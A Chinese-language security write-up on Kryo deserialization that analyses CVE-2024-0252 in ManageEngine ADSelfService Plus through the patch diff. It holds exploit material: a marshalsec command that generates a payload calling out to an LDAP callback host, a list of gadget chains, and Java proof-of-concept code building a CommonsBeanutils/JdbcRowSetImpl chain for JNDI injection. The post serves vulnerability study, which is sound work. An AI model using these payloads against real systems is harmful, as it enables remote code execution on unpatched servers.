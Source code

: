 
从 CVE-2024-0252 学习 kryo 反序列化

- - -

# 从 CVE-2024-0252 学习 kryo 反序列化

## kryo 介绍

项目地址：[https://github.com/EsotericSoftware/kryo](https://github.com/EsotericSoftware/kryo)  
介绍和简单使用移步：[https://cloud.tencent.com/developer/article/1872432](https://cloud.tencent.com/developer/article/1872432)

## kryo 反序列化

和 hessian 类似，关于反序列化 kryo 有大致以下特性：

1.  两种初始化策略：DefaultInstantiatorStrategy（默认）、StdInstantiatorStrategy  
    详细解释参考（[https://blog.csdn.net/liuxiangke0210/article/details/78377677）](https://blog.csdn.net/liuxiangke0210/article/details/78377677%EF%BC%89)
2.  默认配置实例化对象时需要一个默认 public 构造函数并且不支持代理。
3.  5.0 版本以上默认配置 registrationRequired 值为 true，所有待反序列化的类都需要进行注册，相当于白名单。

kryo 提供了两个反序列化函数：

-   readClassAndObject
-   readObject(Input input, Class<t> type)  
    反序列化逻辑差不多都是获取到反序列化器再调用其 read 方法进行反序列化，不同的是后者需要指定反序列化的类型（序列化器在 com.esotericsoftware.kryo.serializers 下）。</t>

写个漏洞 demo 看看

-   依赖

```plain
<dependency>
    <groupId>com.esotericsoftware</groupId>
    <artifactId>kryo</artifactId>
    <version>4.0.1</version>
</dependency>
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.8.3</version>
</dependency>
```

```plain
//java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Kryo CommonsBeanutils ldap://jndi.callback.red:5/ub4t/
Kryo kryo = new Kryo();
kryo.setInstantiatorStrategy(new Kryo.DefaultInstantiatorStrategy(new StdInstantiatorStrategy()));
Input input = new Input(new FileInputStream("D:\\1.txt"));
kryo.readClassAndObject(input);
input.close();
```

有关利用链在 marshalsec 工具提供了一些：

```plain
marshalsec.Kryo:[SpringAbstractBeanFactoryPointcutAdvisor, CommonsBeanutils]

//kryo.setInstantiatorStrategy(new Kryo.DefaultInstantiatorStrategy(new StdInstantiatorStrategy()));
marshalsec.KryoAltStrategy:[Groovy, SpringPartiallyComparableAdvisorHolder, SpringAbstractBeanFactoryPointcutAdvisor, Rome, XBean, Resin, LazySearchEnumeration, BindingEnumeration, ServiceLoader, ImageIO, CommonsBeanutils]
```

## ManageEngine ADSelfService Plus CVE-2024-0252 简要分析

-   环境[https://archives2.manageengine.com/self-service-password/](https://archives2.manageengine.com/self-service-password/)
-   影响版本：6401 之前

下载补丁 diff 主要新增了一行代码

```plain
kryo.setRegistrationRequired(true);
```

[![](assets/1706959005-0ccfb8ab36f09035b456207ad18f5a3d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126153422-52d6ff12-bc1d-1.png)

看了下 kryo 组件的版本是 4.0.1（RegistrationRequired 值默认为 false），基本断定漏洞点就是这儿的反序列化，但是工具类里并不是调用 readClassAndObject，而是调用 readObject 方法反序列化为指定的类型（这里是 hashmap）。

上面提到过反序列化时会调用对应的处理器进行反序列化，这里处理 map 类型的序列化器是 MapSerializer，跟进其 read 方法查看最终还是调用的 readClassAndObject 方法进行的反序列化，即在如下场景下同样能触发反序列化。

```plain
kryo.readObject(input, HashMap.class);
```

下面是用的是工具类里的 cb getter+JdbcRowSetImpl 触发 JNDI 注入的链子，然后再用 Haspmap 包装一下，构造 POC

```plain
public static HashMap<String, Object> exp(String jdniUrl) throws Exception {
    BeanComparator cmp = new BeanComparator("lowestSetBit", Collections.reverseOrder());
    Object trig = makeTreeMap(makeJNDIRowSet(jdniUrl), cmp);
    setFieldValue(cmp, "property", "databaseMetaData");
    HashMap<String, Object> hashMap = new HashMap();
    hashMap.put("test",trig);
    return hashMap;
}
public static TreeMap<Object, Object> makeTreeMap (Object tgt, Comparator comparator ) throws Exception {
    TreeMap<Object, Object> tm = new TreeMap<>(comparator);

    Class<?> entryCl = Class.forName("java.util.TreeMap$Entry");
    Constructor<?> entryCons = entryCl.getDeclaredConstructor(Object.class, Object.class, entryCl);
    entryCons.setAccessible(true);
    Field leftF = getField(entryCl, "left");

    Field rootF = getField(TreeMap.class, "root");
    Object root = entryCons.newInstance(tgt, tgt, null);
    leftF.set(root, entryCons.newInstance(tgt, tgt, root));
    rootF.set(tm, root);
    setFieldValue(tm, "size", 2);
    return tm;
}
```

有趣的是 github 早就放了 poc 不过是个马儿[https://github.com/forsaken0128/CVE-2024-0252-RCE](https://github.com/forsaken0128/CVE-2024-0252-RCE) (404 了)

## 参考

[https://cloud.tencent.com/developer/article/1624416](https://cloud.tencent.com/developer/article/1624416)  
[https://blog.csdn.net/liuxiangke0210/article/details/78377677](https://blog.csdn.net/liuxiangke0210/article/details/78377677)
